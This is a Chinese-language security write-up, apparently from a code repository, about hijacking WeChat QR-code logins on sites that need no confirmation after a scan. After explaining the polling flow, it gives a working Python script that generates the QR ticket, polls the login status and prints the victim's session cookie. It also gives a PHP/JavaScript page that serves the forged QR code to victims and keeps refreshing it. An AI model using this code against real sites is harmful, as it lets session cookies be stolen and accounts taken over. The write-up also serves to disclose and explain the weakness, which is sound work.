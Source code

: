 # 二维码劫持漏洞

​		如今，通过微信扫描进行登陆是很主流的一种登陆方法，用户省去了输入密码的环节，厂商也能通过微信公众号提升用户的依赖性。

但是如果登陆策略不当的话，比如像下文中，用户仅需微信扫描二维码，而没有手动确认登陆的情况下，用户就可能受到二维码劫持攻击的风险。



## 二维码登陆流程

下面以实际例子举例：

首先客户端发送请求，获取微信二维码，及ticket。

![](获取二维码.png)



**imageUrl** 就是二维码图片链接

![](二维码链接.png)

接下来通过轮询此二维码，判断用户是否扫描。

一般分为三种情况

- 返回为0，登陆成功，并回显set-cookie
- 返回为1，表示二维码未被扫描
- 返回为2，表示二维码已过期

![](轮询请求.png)



![](登陆成功.png)



## 思路及实践

> 所以思路就来了
>
> 1. 伪造二维码 
> 2. 投放二维码
> 3. 不断轮询，向用户投放二维码
> 4. 获取cooike

```
# @Author:77
# -*- codeing = utf-8 -*-
# @TIME : 2022/9/27 18:11
# @File : Test_QRcode.py
# @Software: PyCharm
import requests
import time

header = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
        'Referer': "https://www.example.com/"
}

s=requests.session()
while True:
    flag = 0
    response = s.get(url='https://www.example.com', headers=header)
    # print(response.text)
    r = s.get('https://www.example.com/oauth2/login/wechat_qr_code?_=1663254775727', headers=header)
    # print('二维码已生成！')
    qrcodeurl = r.text.split('l":"')[1]
    qrcodeurl = qrcodeurl.split('","')[0]
    ticket = qrcodeurl.split('showqrcode?')[1]
    f = open("qrcode.txt", "w")
    f.write(ticket)
    f.close()
    # 二维码链接
    qr_url = ("https://mp.weixin.qq.com/cgi-bin/showqrcode?" + ticket)
    print('二维码链接为:' + qr_url)
    re_url = ("https://www.example.com/oauth2/login/wechat_mp_status" + '?' + ticket)
    while True:
        # print("开始轮询二维码状态")
        r = s.get(url=re_url, headers=header)

        # print(r.text)
        code = r.text.split('"code":')[1]
        code = code.split('}')[0]
        # print(code)
        if code == '2':
            # print('二维码已失效，请重新刷新')
            flag=1
            break
        if code == '1':
            # print('二维码未扫描')
            continue
        if code == '0':
            flag = 1
            print('登陆成功')
            break
        time.sleep(1)
    if flag == 1:
        break
    time.sleep(5)
print("最终获取cookie为:")
print(requests.utils.dict_from_cookiejar(s.cookies))
```

投放二维码

```
<?php>
$qrcode = file_get_contents('qrcode.txt');
echo'<img src ="https://mp.weixin.qq.com/cgi-bin/showqrcode?.$qrcode.">';
?>
<script type="text/javascript">
    function  flash(){
        location.reload();
    }
    setInterval(falsh,20000)
</script>
```



最后给一张测试成功截图。

![](成功截图.png)







> **当然这个可能并不算是多危险的漏洞，仅是介绍一种攻击的思考角度。在实际中客户体验经常会与安全性产生冲突，是否需要整改可能需要讨论，寻找出一个合适的平衡点。**

